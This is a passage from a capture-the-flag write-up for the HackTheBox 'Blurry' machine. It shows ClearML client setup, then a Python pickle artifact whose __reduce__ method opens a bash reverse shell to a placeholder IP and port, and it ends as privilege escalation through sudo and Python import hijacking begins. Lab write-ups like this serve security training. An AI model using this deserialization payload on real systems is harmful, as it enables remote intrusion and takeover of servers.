 There is a guide on how to set it up. Complete the configuration as prompted.

1. Install the `clearml` python package

```
pip install clearml
```

2. Run the command below

```
clearml-init
```

3. When prompted with `Paste copied configuration here:` use the code you generated after clicking on `CREATE NEW CREDENTIALS`. You need to add `api.blurry.htb` to your hosts file or the configuration will fail.

![ClearML configuartion steps](/images/HTB-Blurry/clearml_config_steps.png)

If everything goes right you will be notifiied as such.

![ClearML successful configuration](/images/HTB-Blurry/ClearML_success_config.png)

4. We can now upload a malicious artifact in order to get a reverse shell, after running the script below we get a shell on our listener as `jippity` and find the user flag in `/home/jippity`.

```python
import pickle, os

class RunCommand:
    def __reduce__(self):
        return (os.system, ('/bin/bash -c "/bin/bash -i >& /dev/tcp/IP/PORT 0>&1"',))

command = RunCommand()

from clearml import Task
task = Task.init(project_name='Black Swan', task_name='pickle_artifact_upload', tags=["review"])
task.upload_artifact(name='pickle_artifact', artifact_object=command, retries=2, wait_on_upload=True, extension_name=".pkl")
```

![Blurry user flag](/images/HTB-Blurry/blurry_user_flag.png)

## Privilege Escalation

With `sudo -l` we learn that the user `jippity` has the permission to run the `evaluate_model` command on any `.pth` file in the `/models` directory as root without providing a password.

![Blurry sudo -l](/images/HTB-Blurry/sudo-l_cmd.png)

### Python Import hijacking

In `/models` we find two files `demo_model.pth`, and `evaluate_model.py`. The script uses `import sys` which "provides various functions and variables that are used to manipulate different parts of the Python runtime environment.". _[Source](https://www.geeksforgeeks.org/python-sys-module/)_
